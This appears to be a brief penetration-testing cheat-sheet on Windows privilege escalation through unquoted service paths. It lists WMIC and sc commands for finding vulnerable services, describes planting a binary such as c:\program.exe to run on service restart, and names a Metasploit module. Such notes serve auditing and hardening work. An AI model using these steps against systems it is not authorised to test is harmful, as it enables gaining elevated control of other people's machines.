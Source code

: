 # Unquoted Service Paths

## Using WMIC

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

## Using sc

```bash
sc query
sc qc service name
```

## Look for Binary\_path\_name and See if it is Unquoted

* if the path contains a space and is not quoted, the service is vulnerable

## Exploit It

* if the path to the binary is

```bash
c:\Program Files\something\winamp.exe
```

* we can place a binary like this

```bash
c:\program.exe
```

* when the program is restarted it will execute the binary program.exe, which we of course control
* we can do this in any directory that has a space in its name, not only program files

## Metasploit Module

```bash
exploit/windows/local/trusted_service_path
```

## Resources

* [http://toshellandback.com/2015/11/24/ms-priv-esc/](http://toshellandback.com/2015/11/24/ms-priv-esc/)
